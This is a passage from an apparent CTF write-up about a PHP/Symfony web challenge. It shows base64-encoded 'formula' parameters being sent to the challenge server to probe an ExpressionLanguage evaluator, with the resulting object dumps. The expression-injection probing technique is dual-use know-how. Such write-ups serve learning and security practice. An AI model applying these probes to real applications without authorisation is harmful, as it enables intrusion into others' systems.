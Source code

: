 It looks like this feature is based on ExpressionLanguage module from Symfony. So the backend project is a php one. And it's trying to compute that formula using those 4 values.

But how if we follow Hint 2 and remove some `values[]` parameters and we also remove those variables from the `formula` parameter and we only keep one variable ?

For example:

```
formula: (v1.mpk+v1.drf*(v1.mpk/0.5)-v1.drf)/(v1.avg*0.1)
values[v1]: STC
```

So the real parameters request will be (base64(`formula` parameter)):

```
formula: KHYxLm1wayt2MS5kcmYqKHYxLm1way8wLjUpLXYxLmRyZikvKHYxLmF2ZyowLjEp
values[v1]: STC
```

>Generated URL: https://web1.ctfsecurinets.com/default?formula=KHYxLm1wayt2MS5kcmYqKHYxLm1way8wLjUpLXYxLmRyZikvKHYxLmF2ZyowLjEp%3D&values%5Bv1%5D=STC


We also get a float result. This mean that the backend page is answering to this request correctly.

But how if if keep only v1 insteal of v.<attributes> ?

For example:

```
formula: v1
values[v1]: STC
```

So the real parameters request will be (base64(`formula` parameter)):

```
formula: djE=
values[v1]: STC
```

>Generated URL: https://web1.ctfsecurinets.com/default?formula=djE=&values%5Bv1%5D=STC

We get another intresting result

<p align="center">
<img src="resources/web-989-trading_values/6.PNG"/>
</p>

We get the same thing when we replace `STC` by `OCK` or `SDF` or `PLA`:

Results (resume):

```
For STC: object(App\Entity\STC)#233 (4) { ["id":"App\Entity\STC":private]=> NULL ["avg"]=> int(909) ["mpk"]=> int(100) ["drf"]=> int(48) }
For OCK: object(App\Entity\OCK)#253 (4) { ["id":"App\Entity\OCK":private]=> NULL ["avg"]=> int(43) ["mum"]=> int(96) ["dad"]=> int(39) }
For SDF: object(App\Entity\SDF)#252 (5) { ["id":"App\Entity\SDF":private]=> NULL ["avg"]=> int(328) ["pdi"]=> int(87) ["gdp"]=> int(11) ["rar"]=> int(85) }
For PLA: object(App\Entity\PLA)#232 (4) { ["id":"App\Entity\PLA":private]=> NULL ["avg"]=> int(556) ["mds"]=> int(17) ["dmq"]=> int(74) }
```
